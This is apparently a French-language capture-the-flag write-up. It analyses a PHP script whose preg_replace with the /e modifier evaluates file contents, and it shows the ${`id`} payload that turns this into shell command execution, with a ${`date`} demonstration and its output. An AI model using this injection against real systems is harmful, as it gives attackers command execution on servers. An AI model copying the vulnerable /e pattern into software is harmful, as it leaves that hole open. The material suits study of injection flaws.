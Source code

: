 <?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>

la fonction utilise preg_replace qui donc remplace les pattern par d'autres dans les array ou des strings

les input `id` et \`id\` ne marche pas car ca print la strings
pour print un variable dans une string php il faut mettre l'expression dans ${exp} comme ca les back ticks seront interprété comme alias de shel_exec
${`id`}

<?php
$output = "The current date and time is: ${`date`}";
echo $output;
?>

output : `
PHP Warning:  Undefined variable $Sat Jan 14 01:58:28 PM CET 2023
 in /home/user/workspace/test.php on line 3
The current date and time is: % 
`

https://regex101.com/r/LYUavz/1